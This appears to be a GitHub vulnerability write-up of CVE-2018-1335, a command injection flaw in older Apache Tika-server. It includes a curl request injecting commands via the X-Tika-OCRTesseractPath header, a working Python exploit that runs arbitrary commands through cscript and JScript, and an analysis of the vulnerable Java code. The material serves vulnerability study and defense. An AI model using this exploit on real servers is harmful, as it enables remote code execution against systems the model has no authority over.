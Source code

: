 # CVE-2018-1335

## Description
Bug Overview: This bug leads to command injection vulnerability in Apache Tika -server < 1.18 and uses Cscript.exe to execute Jscript or VBS code and run arbitrary commands.


## Environmental Setup

We downloaded the vulnerable version of the apache tika server in a windows 10 machine (running on azure windows 10 server instance) from https://archive.apache.org/dist/tika/tika-server-1.17.jar and start the tika server with the following command .  

```
java -jar tika-server-1.17.jar
```

## Vulnerability and Exploit
### Exploit-1: Arbitrary Command Execution

We are able to inject arbitrary commands to the tika server through specifically crafted header prefix `X-Tika-OCRTesseractPath`. This header specifies the path to the OCR Tesseract binary `tesseract.exe` but we can inject arbitrary commands through it using the fact that Windows ignores anything provided after double quotes.

The injection HTTP request looks something like
```
curl -T file_example_TIFF_1MB.tiff http://localhost:9998/meta --header "X-Tika-OCRTesseractPath: \"calc.exe\""  
```

The vulnerability is of command injection at tika-server and the entry point of the vulnerability is the HTTP headers.  
The tika-server code handles the HTTP request by checking the header prefix. In case of HTTP request with `"X-Tika-OCR" prefix`, the server code invokes `processHeaderConfig()` function which parses the HTTP request and constructs the `TesseractOCRConfig` object.  
The `doOCR()` function then uses the TesseractOCRConfig object to construct the command for `ProcessBuilder`.  However, the doOCR() function while constructing the command appends the `OCRTesseractPath` (i.e. the passed `calc.exe`) with `tesseract.exe`.  
The resultant command looks like `"calc.exe"tesseract.exe ..."`. But since Windows ignores whatever is appened to it after the quotes, we are able to execute just our injected command `calc.exe`.  

The command constructed by the doOCR() function is as follows.  
```cmd.exe
"calc.exe"tesseract.exe <input.tmp> <output.tmp> -l eng -psm 1 txt -c preserve_interword_spaces=0
``` 


### Exploit-2: JScript Execution

The first temp file passed to the command is the input file uploaded. Thus we could fill the input file with some code and have it executed. However, the problem is the extension of the file is `".tmp"`. Also, uploading an image file with some code would due to verification of the `magic bytes` of the image. The work around is to use `Cscript` that takes the first argument as the script and allows to use `"//E:engine" flag` to specify the script engine so that the file extension does not matter. Also, setting the content type to `"image/jp2"` forces the tika-sever not to verify the magic bytes in the image. This allows an image file containing JScript/VBScript to be uploaded and executed on the server.  

The new command would now look like
```  
"cscript.exe"tesseract.exe <input.tmp> <output.tmp> -l //E:Jscript -psm 1 txt -c preserve_interword_spaces=0
```
This is exploited in Exploit-2 code.

```python 
#!/usr/bin/env python  

import sys 
import requests

host = sys.argv[1]
port = sys.argv[2]
cmd = sys.argv[3]

url = host+":"+str(port)+"/meta"

headers = {"X-Tika-OCRTesseractPath": "\"cscript\"", 
		"X-Tika-OCRLanguage": "//E:Jscript", 
		"Expect": "100-continue", 
		"Content-type": "image/jp2", 
		"Connection": "close"
        }

jscript='''var shellObj = WScript.CreateObject("WScript.Shell");
var execCmd = shellObj.Exec('cmd /c {}');'''.format(cmd)

try:
        requests.put("https://"+url, headers=headers, data=jscript, verify=False)
except:
	try:
		requests.put("http://"+url, headers=headers, data=jscript)
	except:
		print "Something went wrong."
```


## Analysis of Server Code Snippets
### TikaResource.java
  https://github.com/apache/tika/blob/86e997510b44f12dc9f90a68aaf583d5d3912892/tikaserver/src/main/java/org/apache/tika/server/resource/TikaResource.java

```java

public static final String X_TIKA_OCR_HEADER_PREFIX = "X-Tika-OCR"; 	// HTTP header prefix

public static void fillParseContext(ParseContext parseContext, MultivaluedMap<String, String> httpHeaders,
                                        Parser embeddedParser) {
...
TesseractOCRConfig ocrConfig = null;
for (String key : httpHeaders.keySet()) {
        if (StringUtils.startsWith(key, X_TIKA_OCR_HEADER_PREFIX)) {
        ocrConfig = (ocrConfig == null) ? new TesseractOCRConfig() : ocrConfig;
                
        // Parses HTTP headers and constructs TesseractOCRConfig object
        processHeaderConfig(httpHeaders, ocrConfig, key, X_TIKA_OCR_HEADER_PREFIX);	
        
        } else if (StringUtils.startsWith(key, X_TIKA_PDF_HEADER_PREFIX)) {
        pdfParserConfig = (pdfParserConfig == null) ? new PDFParserConfig() : pdfParserConfig;
        processHeaderConfig(httpHeaders, pdfParserConfig, key, X_TIKA_PDF_HEADER_PREFIX);  
        }
}
```

### TesseractOCRParser.java
https://github.com/apache/tika/blob/86e997510b44f12dc9f90a68aaf583d5d3912892/tika-parsers/src/main/java/org/apache/tika/parser/ocr/TesseractOCRParser.java

```java
private void parse(TikaInputStream tikaInputStream, File tmpOCROutputFile, ParseContext parseContext,
                       XHTMLContentHandler xhtml, TesseractOCRConfig config)
...
        // Uses TesseractOCRConfig object constructed with processHeaderConfig
        doOCR(tmpFile, tmpOCROutputFile, config);	

private void doOCR(File input, File output, TesseractOCRConfig config) throws IOException, TikaException {

// Construction of command string using TesseractPath
ArrayList<String> cmd = new ArrayList<>(Arrays.asList(
        config.getTesseractPath() + getTesseractProg(), input.getPath(),  output.getPath(), "-l",
        config.getLanguage(), "--psm", config.getPageSegMode()
)); 

for (Map.Entry<String, String> entry : config.getOtherTesseractConfig().entrySet()) {
        cmd.add("-c");
        cmd.add(entry.getKey() + "=" + entry.getValue());
}
cmd.addAll(Arrays.asList(
        "-c", "page_separator=" + config.getPageSeparator(),
        "-c",
        (config.getPreserveInterwordSpacing())? "preserve_interword_spaces=1" : "preserve_interword_spaces=0",
        config.getOutputType().name().toLowerCase(Locale.US)
));
ProcessBuilder pb = new ProcessBuilder(cmd);
setEnv(config, pb);
final Process process = pb.start(); // Command execution
```
